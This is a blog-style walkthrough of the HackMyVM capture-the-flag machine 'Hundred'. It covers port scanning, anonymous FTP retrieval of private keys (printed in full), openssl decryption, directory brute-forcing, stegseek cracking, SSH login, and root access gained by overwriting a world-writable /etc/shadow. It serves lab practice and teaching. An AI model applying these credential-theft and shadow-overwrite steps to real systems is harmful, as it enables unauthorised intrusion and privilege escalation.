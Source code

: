 ```yaml
---
title: "Hundred by sml"
excerpt: " "
comments: true
categories:
  - Hacking
  - Walkthrough
tags:
  - Hacking
  - Walkthrough
  - HackMyVM
header:
  overlay_image: /assets/images/pasek-hack.png
gallery1_1:
  - url: /assets/images/hacking/2021/11/01.png
    image_path: /assets/images/hacking/2021/11/01.png
  - url: /assets/images/hacking/2021/11/02.png
    image_path: /assets/images/hacking/2021/11/02.png  
---
```

# No comments, just walkthrough:
## 01. Metasploit and scan
<div class="notice--primary" markdown="1">
```bash
# msfconsole
msf6 > db_nmap -p- -A 172.16.1.108
```
```console
[*] Nmap: Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-23 19:24 CEST
[*] Nmap: Nmap scan report for hundred.lan (172.16.1.108)
[*] Nmap: Host is up (0.00038s latency).
[*] Nmap: Not shown: 65532 closed ports
[*] Nmap: PORT   STATE SERVICE VERSION
[*] Nmap: 21/tcp open  ftp     vsftpd 3.0.3
[*] Nmap: | ftp-anon: Anonymous FTP login allowed (FTP code 230)
[*] Nmap: | -rwxrwxrwx    1 0        0             435 Aug 02 06:19 id_rsa [NSE: writeable]
[*] Nmap: | -rwxrwxrwx    1 1000     1000         1679 Aug 02 06:11 id_rsa.pem [NSE: writeable]
[*] Nmap: | -rwxrwxrwx    1 1000     1000          451 Aug 02 06:11 id_rsa.pub [NSE: writeable]
[*] Nmap: |_-rwxrwxrwx    1 0        0             187 Aug 02 06:27 users.txt [NSE: writeable]
[*] Nmap: | ftp-syst:
[*] Nmap: |   STAT:
[*] Nmap: | FTP server status:
[*] Nmap: |      Connected to ::ffff:172.16.1.10
[*] Nmap: |      Logged in as ftp
[*] Nmap: |      TYPE: ASCII
[*] Nmap: |      No session bandwidth limit
[*] Nmap: |      Session timeout in seconds is 300
[*] Nmap: |      Control connection is plain text
[*] Nmap: |      Data connections will be plain text
[*] Nmap: |      At session startup, client count was 4
[*] Nmap: |      vsFTPd 3.0.3 - secure, fast, stable
[*] Nmap: |_End of status
[*] Nmap: 22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
[*] Nmap: | ssh-hostkey:
[*] Nmap: |   2048 ef:28:1f:2a:1a:56:49:9d:77:88:4f:c4:74:56:0f:5c (RSA)
[*] Nmap: |   256 1d:8d:a0:2e:e9:a3:2d:a1:4d:ec:07:41:75:ce:47:0e (ECDSA)
[*] Nmap: |_  256 06:80:3b:fc:c5:f7:7d:c5:58:26:83:c4:f7:7e:a3:d9 (ED25519)
[*] Nmap: 80/tcp open  http    nginx 1.14.2
[*] Nmap: |_http-server-header: nginx/1.14.2
[*] Nmap: |_http-title: Site doesn't have a title (text/html).
[*] Nmap: MAC Address: 92:25:CA:13:80:8A (Unknown)
[*] Nmap: Device type: general purpose
[*] Nmap: Running: Linux 4.X|5.X
[*] Nmap: OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
[*] Nmap: OS details: Linux 4.15 - 5.6
[*] Nmap: Network Distance: 1 hop
[*] Nmap: Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
[*] Nmap: TRACEROUTE
[*] Nmap: HOP RTT     ADDRESS
[*] Nmap: 1   0.38 ms hundred.lan (172.16.1.108)
[*] Nmap: OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 10.16 seconds
```
</div>
<div class="notice--primary" markdown="1">
```bash
services
```
```console
msf6 > services
Services
========

host          port  proto  name  state  info
----          ----  -----  ----  -----  ----
172.16.1.108  21    tcp    ftp   open   vsftpd 3.0.3
172.16.1.108  22    tcp    ssh   open   OpenSSH 7.9p1 Debian 10+deb10u2 protocol 2.0
172.16.1.108  80    tcp    http  open   nginx 1.14.2
```
</div>
## 02. Ftp 
<div class="notice--primary" markdown="1">
```console
msf6 auxiliary(scanner/ftp/anonymous) > run -j
[*] Auxiliary module running as background job 1.
msf6 auxiliary(scanner/ftp/anonymous) >
[+] 172.16.1.108:21       - 172.16.1.108:21 - Anonymous READ (220 (vsFTPd 3.0.3))
[*] 172.16.1.108:21       - Scanned 1 of 1 hosts (100% complete)

msf6 auxiliary(scanner/ftp/anonymous) >
msf6 auxiliary(scanner/ftp/anonymous) > exit
```
</div>
<div class="notice--primary" markdown="1">
```bash
ncftp
```
```console
NcFTP 3.2.5 (Feb 02, 2011) by Mike Gleason (http://www.NcFTP.com/contact/).
ncftp> open -a 172.16.1.108
Connecting to 172.16.1.108...
(vsFTPd 3.0.3)
Logging in...
Login successful.
Logged in to 172.16.1.108.
ncftp / > ls -la
drwxr-xr-x    2 0        113          4096 Aug 02 06:27 .
drwxr-xr-x    2 0        113          4096 Aug 02 06:27 ..
-rwxrwxrwx    1 0        0             435 Aug 02 06:19 id_rsa
-rwxrwxrwx    1 1000     1000         1679 Aug 02 06:11 id_rsa.pem
-rwxrwxrwx    1 1000     1000          451 Aug 02 06:11 id_rsa.pub
-rwxrwxrwx    1 0        0             187 Aug 02 06:27 users.txt
ncftp / > mget *
id_rsa:                                                435.00 B  800.01 kB/s
c:                                              1.64 kB    3.91 MB/s
id_rsa.pub:                                            451.00 B    1.06 MB/s
users.txt:                                             187.00 B  280.52 kB/s
ncftp / > exit
```
</div>
<div class="notice--primary" markdown="1">
```bash
cat id_rsa
```
```console
  / \
    / _ \
   | / \ |
   ||   || _______
   ||   || |\     \
   ||   || ||\     \
   ||   || || \    |
   ||   || ||  \__/
   ||   || ||   ||
    \\_/ \_/ \_//
   /   _     _   \
  /               \
  |    O     O    |
  |   \  ___  /   |
 /     \ \_/ /     \
/  -----  |  --\    \
|     \__/|\__/ \   |
\       |_|_|       /
 \_____       _____/
       \     /
       |     |
-------------------------
```
```bash
 cat id_rsa.pem
```console
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAwsrHORyA+mG6HS9ZmZwzPmKHrHhA0/kKCwNjUG8rmPVupv73
mUsewpoGvYB9L9I7pUAsMscAb5MVo89d4b0z2RnXDD1fh6mKlTJmcNwWCnA1PgD+
OwqewshpkCBhCV6O2P6dktfA8UI/uqF6uT4QISU4ksriN16cOm/89jHadetB8dCe
h3Rx6HrFNccY8aiDRSA9meqz7YGE2+lJ/NtwtndUkzzxKxuKC6z4gG780tZHhg83
xVwZ9bxPyHfGqHWmV4yGsAgp7mot7pg9VzffnP6DAVnbReDDbhNLcnfVXEkBv8SQ
L7OFIiKxJpoa1ADqGffA5LOPFdYKbbCFMictQQIDAQABAoIBAE4Q6IDp/ILcEbPK
mzUl1Z+l60visdCCGVVKmU3OEAHwMtV4j5B++6fwBM2Dpig5MDBNJKmA+Zq9rsmE
vNJQemwCoB3Gpvd+qgybM1T9z1OFnsDnsvvEiNX1beEWKO2RWNx8RnhoQWovK81H
FCETT3GJMkAaUUjxgNkmspGUb0IcP4YR61jpNy8thMLz8FQV8XqNSf4DSd9+8wrm
FBFDFzso6zcBtsY6/nDueaVfLsequU1Fdhh3itC6rPXync/EWN0HJtaiKEVAytYE
cvl1hVpRVhGZGjPqNQSPcknO0K2b22anRoiSpBoCzaopbSZHySFgcZM8oxGgw35j
YpS1ULUCgYEA+1Se5s4AzsOX/3RRwwF9Was//oHU1N2JnJRetF9tjeFu8MEMnSec
a3bcPy+CZHB8oVnoyh647IObzPUjCgMxdyTLdfGmQ8RgzXhwYeQRe+ethrT/Ra26
7m+R+3838k5ZTKnwjBPreV/i2AmwZYDPT2S5q5b7m5Cr4QTfsaScaKsCgYEAxmk/
xzu2XO8YmE+8R62nWdLPMaj4E5IPkT3uCA8G24KGSSyK29OGZ02RI8qxWkdqMxKJ
rTDrQJ/4oU6108Vhay0tyFswbNn0ymlHAhPKxXNr0xHkC6rCnDEnn6W7bspTxxyk
9OUtl2UemtnEKRm3qu9Rc1qLFW0/Zhxw3ovgWcMCgYEAka6HPPoD9dXicSyXiBWA
900QlxHisFCJx70o+ByogClACUWdbirbvF71Y5rCVj3twAlBqocMYewXj0I4wUEA
lzM4zHD6EyXthqxdWCC/EbdFGmQn49fEFxmM4N7pKwbHNGz9BfU19PDjqJ5VJUD4
6ehUx2WJCq9dMd2FXI8yKmkCgYAMBBnBtiMQM8a4irOrX5/v961mo4YKoWDh+e8t
e8N9jcUWL2VldMUCApeUpFTjU8nht/CwlXLZ4hZLppmqbpy8weqw5JzlKroBfCi5
vnscRCY2jTHTZw8MKInuyDm2tvgl6d0vm6WMMqqM1D1mA9G0v3OeWdBshsY9J+HK
CIyYwwKBgQDEXoZ+lZKyPUBSgcE+b52U2Dj9GAPKPUDZpsCbUebftZknOk/HelF1
wiWWDjni1ILVSfWIR4/nvosJPa+39WDv+dFt3bJdcUA3SL2acW3MGVPC6abZWwSo
izXrZm8h0ZSuXyU/uuT3BCJt77HyN2cPZrqccPwanS9du6zrX0u2yQ==
-----END RSA PRIVATE KEY-----
```bash
cat users.txt
```
```console
--- SNIP ---
noname
roelvb
ch4rm
marcioapm
isen
sys7em
chicko
tasiyanci
luken
alienum
linked
tatayoyo
0xr0n1n
exploiter
kanek180
cromiphi
softyhack
b4el7d
val1d
--- SNIP ---

Thanks!
hmv
```
</div>
## 03. http://172.16.1.108/
<div class="notice--primary" markdown="1">
view-source:http://172.16.1.108/
```
<style>
.center {
  display: block;
  margin-left: auto;
  margin-right: auto;
  key: h4ckb1tu5.enc;
  width: 50%;
}
</style>

<img src="logo.jpg" class="center"> 
<h1>Thank you ALL!</h1>
<h1>100 f*cking VMs!!</h1>

<!-- l4nr3n, nice dir.-->
```
</div>
<div class="notice--primary" markdown="1">
```bash
curl -O "http://172.16.1.108/{h4ckb1tu5.enc,logo.jpg}"
```
```console
[1/2]: http://172.16.1.108/h4ckb1tu5.enc --> h4ckb1tu5.enc
--_curl_--http://172.16.1.108/h4ckb1tu5.enc
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   256  100   256    0     0   250k      0 --:--:-- --:--:-- --:--:--  250k

[2/2]: http://172.16.1.108/logo.jpg --> logo.jpg
--_curl_--http://172.16.1.108/logo.jpg
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  7277  100  7277    0     0  7106k      0 --:--:-- --:--:-- --:--:-- 7106k
```
</div>
## 04. Decrypt
<div class="notice--primary" markdown="1">
```bash
openssl rsautl -decrypt -inkey id_rsa.pem -in h4ckb1tu5.enc
```
```console
/softyhackb4el7dshelldredd
```
</div>
## 05. File search
<div class="notice--primary" markdown="1">
http://172.16.1.108/softyhackb4el7dshelldredd
```
Hi boss. Is there --> ... 
```
</div>
<div class="notice--primary" markdown="1">
```bash
dirsearch -r -u http://172.16.1.108/softyhackb4el7dshelldredd -w /usr/share/seclists/Discovery/Web-Content/common.txt -f -e txt,php,html,htm,zip
```
```console
Target: http://172.16.1.108/softyhackb4el7dshelldredd/

[22:53:44] Starting:
[22:54:08] 200 -    2KB - /softyhackb4el7dshelldredd/id_rsa
[22:54:08] 200 -   26B  - /softyhackb4el7dshelldredd/index.html

Task Completed
```
</div>
## 06. Download & decrypt
```bash
wget http://172.16.1.108/softyhackb4el7dshelldredd/id_rsa && cat id_rsa
```
```console
--2021-09-23 23:02:01--  http://172.16.1.108/softyhackb4el7dshelldredd/id_rsa
Connecting to 172.16.1.108:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1876 (1.8K) [application/octet-stream]
Saving to: ‘id_rsa’

id_rsa                        100%[==============================================>]   1.83K  --.-KB/s    in 0s

2021-09-23 23:02:01 (170 MB/s) - ‘id_rsa’ saved [1876/1876]

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABC1tMw32e
lFi/dbgCqdqW6TAAAAEAAAAAEAAAEXAAAAB3NzaC1yc2EAAAADAQABAAABAQDTAhcp/5nw
lsy+3EWvxJUZ5ok0krnLNSETXK915aZ1G/r9DEYI00+A03XALv36P8/RMJMTb6O99TMumL
sB18Al014yCEK+zhp0aIMeuIlqlhD0thxXINPGzLewoTZKSctZIRFeO9lNaxqLi4dVDgyB
PwglvDzZldRYxTd6+/RpP+5dPggjoj4ZC5kln+SkD2+EPveTuJQAs/wLaeHgBDVuKUOHD/
FA/Vctw1ZXYzYIL+vkGL8cMjiIlscCE4Ze+3QzHs9otOqPczDoZ5v1IAl0vJ7lKaLR27ov
WnCOQdoS9BVojlEOtOzlyX1V9M1pkePhmzSTaIDMBXuLcYmaKa8LAAAD0AHQ1cvNEthcr2
m8I3a3Mt7Sr0Dfb2Lg7aypmPEgrS5dIGK+t6lReNEUU4KPCXy2RzRs8nKm/fbRxteuTeR6
O/nICGj67XlZl2wHyn5+W/5j8ndxB79t1f5UZWQuzKLwhOe8qEnnyL7sn8EXCjpU3SBcXO
oTiBDNmwZk+L0nQWz/IsCLNXbqgxuYBnRsKd85b5Xgs2uylyTx2qaRq1s6mMV2UMJEmj6U
7rBFbrKcBOrmRSx7p8Pr2rWtUhb8P3p4DL8Z6cVmeruS/Xa85B920t3eK7vNGqA8AH8zKG
xNk8eAkRoSicAnheYJsU5YSAS+AYSOJcA/91xSjqhaFWJuZo9ktw6/L80NSBfUVJhnGtCf
2J1QTXbBxhQ7rGHRIXk/pSMfxsYikmNsnnGU7u/tQKZmlTY1HnOrf0r1EdB6aAzpR0uZxT
t7iPoOCK4/BvJURkG9b31vLKhZPOiUK6sN8N0OQzQxbzQCTRb7v1JfRG57H9wQsMNYZf9S
XWE2GIPl55ww9iECcyvHUWKvL67cWDX42wUQ9UQS37QsVKEPtTJa7rTGG9unqcqkMoq5g4
+uAOAJx7aFhOG48hCwIgqWxHSXQmitTiz36FCakkMwECm2lyjotCCmGoIScMlKxpzsmV4M
wqxWToINy2fGQ1Yem993ACu8zSnLIJ0XUugveeVJkxc0fpYcBEbPzeKs9pkGpk+BDt1dIs
+UEsnoGszQMy7D/xCBINrUW+vmgNVtJVLxtfmxJY/Lnrrf+wIKTPR0sBzdOPmDJFjkudjf
BCzUa1V+Uqlu1CODPxwJSV/9300IYiVjevGeRQwU2Ol8OFFb69a5sDkrtV0zqMNdgvJwT4
qXaW5unXngxkam+w3IY6CHiNW9XK8aLONo56+Bl+8stLB8p0IaT4RjgFO0jUY8fSkuo++g
pGBSACsYutFP4PhqIiIJzovMsTrq/5/OynGRriA0Fum/6seBXNZfBdgnQCH+9o5DJaJ0oS
VyfM9a6g7KM7dIkFRDC4FP/jonTBozaAMEZKVynLT0D5aKpkNmLcqXe4oUW4NJQatXN/ac
qh3a5x38Jkqh7I+CJyFnZpPChHMO8iQF9Vyz3+ABqzLiE2cfsDZoM3KPfz6bTo8uE7j3Eg
KqCn5ZgnewitQGYBVsetAVPwlwuHsKZp/jPr3b0SPZ1lf2elQvqfmj4sRNYhG4YaVGdPbU
hIPePtsxi0+XFAqfgm0h4PM9WdtOEafmPhMbPiP3ITbWCiYNKHXRwiDA56M0zebphDihii
x9NFZeQzcWz9zFQclVpVk1xYQxj48=
-----END OPENSSH PRIVATE KEY-----
```
</div>
<div class="notice--primary" markdown="1">
```bash
stegseek logo.jpg users.txt
```
```console
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "cromiphi"
[i] Original filename: "toyou.txt".
[i] Extracting to "logo.jpg.out"
```
</div>
<div class="notice--primary" markdown="1">
```bash
cat logo.jpg.out
```console
d4t4s3c#1
```
</div>
## 07. Shell
<div class="notice--primary" markdown="1">
```bash
ssh -i id_rsa hmv@172.16.1.108
```
```console
Enter passphrase for key 'id_rsa':
Linux hundred 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Sep 23 17:18:14 2021 from 172.16.1.10
hmv@hundred:~
```
</div>
### 08. Shell enumeration
<div class="notice--primary" markdown="1">
```bash
hmv@hundred:~$ wget "https://github.com/diego-treitos/linux-smart-enumeration/raw/master/lse.sh" && chmod 700 lse.sh
```
```console
--2021-09-23 17:33:40--  https://github.com/diego-treitos/linux-smart-enumeration/raw/master/lse.sh
Resolving github.com (github.com)... 140.82.121.3
Connecting to github.com (github.com)|140.82.121.3|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh [following]
--2021-09-23 17:33:41--  https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 185.199.109.133, 185.199.108.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 43570 (43K) [text/plain]
Saving to: ‘lse.sh’

lse.sh                        100%[==============================================>]  42.55K  --.-KB/s    in 0.005s

2021-09-23 17:33:41 (8.61 MB/s) - ‘lse.sh’ saved [43570/43570]
```
```bash
hmv@hundred:~$ ./lse.sh -l 1
```
```console
[!] fst140 Can we access other users mail?................................. nope
[*] fst150 Looking for GIT/SVN repositories................................ nope
[!] fst160 Can we write to critical files?................................. yes!
---
-rwxrwxrw- 1 root shadow 254 Sep 23 17:31 /etc/shadow
---
[!] fst170 Can we write to critical directories?........................... nope
[!] fst180 Can we write to directories from PATH defined in /etc?.......... nope
[!] fst190 Can we read any backup?......................................... nope
[!] fst200 Are there possible credentials in any shell history file?....... nope
```
</div>
## 09. Get Root
```bash
hmv@hundred:~$ openssl passwd 1234
eFUXRS/6X7lsU
hmv@hundred:~$ echo "root:eFUXRS/6X7lsU:18893:0:99999:7:::" > /etc/shadow
hmv@hundred:~$ su
Password:
root@hundred:/home/hmv# id
uid=0(root) gid=0(root) groups=0(root)
root@hundred:/home/hmv#
```
## 10. The end
Inspired by the [write-up](https://nepcodex.com/2021/09/hundred-writeup-hackmyvm-walkthrough/)
